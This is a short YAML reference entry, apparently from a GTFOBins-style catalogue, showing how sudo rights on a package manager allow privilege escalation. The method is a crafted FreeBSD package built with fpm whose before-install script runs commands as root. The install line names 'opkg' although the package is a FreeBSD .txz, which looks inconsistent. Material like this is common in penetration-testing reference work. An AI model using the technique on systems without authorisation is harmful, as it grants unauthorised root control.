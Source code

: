 ```yaml
---
functions:
  sudo:
    - description: |
        It runs commands using a specially crafted FreeBSD package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo opkg install -y --no-repo-update ./x-1.0.txz
---
```

